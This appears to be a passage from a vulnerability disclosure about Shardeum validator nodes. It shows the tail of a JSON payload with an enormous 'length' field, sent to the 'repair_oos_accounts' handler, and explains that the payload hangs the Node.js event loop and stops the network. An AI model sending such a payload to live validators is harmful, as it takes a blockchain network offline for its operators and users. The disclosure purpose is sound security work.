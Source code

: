    ```
                    }
                }
            }
        }
     },
      "targetNodeId": nodeAddr.id,
      "receipt2":{
        "appliedVote":sign({
            "node_id":NODE_ID,
            "transaction_result":"result",
            "account_id":{
              length: 10000000000000000000000000000000000000000000
            }
        })
      }
    }]
    ```
    is sent using the internal protocol to `repair_oos_accounts` handler triggering the vulnerability.
   Inifinite `for` loop execution will then block NodeJS' event loop, making each active validator node unresponsive and practically stopping the network.

Shardeum's monitor dashboard, launched by default on http://localhost:3000/ can be used
to check that all active nodes will be now marked as red as they go offline and stop
reporting to the monitor. Making any request to the validator nodes will hang,
as the network is completely stopped at this point.